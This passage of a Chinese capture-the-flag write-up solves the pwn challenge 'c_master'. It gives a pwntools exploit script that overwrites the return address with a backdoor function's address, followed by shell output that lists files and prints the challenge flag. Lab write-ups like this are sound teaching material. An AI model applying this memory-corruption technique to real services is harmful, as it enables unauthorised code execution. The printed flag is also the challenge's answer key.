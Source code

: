 ~~注意到~~存在后门函数 `backdoor()`．更令人欣喜的是，程序没开 PIE 保护，能直接得到 `backdoor()` 地址．

### exp

```python
from pwn import *

# io = process('./c_master')
io = remote('43.248.97.213', 30676)

pwn_addr = 0x4012C3

for _ in range(3):
    io.sendline(b'base+=8;')
    io.sendline(b'read(0,base,0x8);')
    io.sendline(p64(pwn_addr))    # pwn!
    io.interactive()
```

### getshell

```shell
[*] Switching to interactive mode
Try to write a C getshell program with my code!
read(0,base,0x8);
write(1,base,0x8);
base+=8;
base-=8;
return 0;
>>>
>>>
>>>
>>>
input:
>>>
$ ls
$ ls
bin
c_master
dev
flag
lib
lib32
lib64
libx32
usr
$ cat flag
XSCTF{p1e4se_bec0me_4_c_m4ster_x5c7f}
```

### 答案
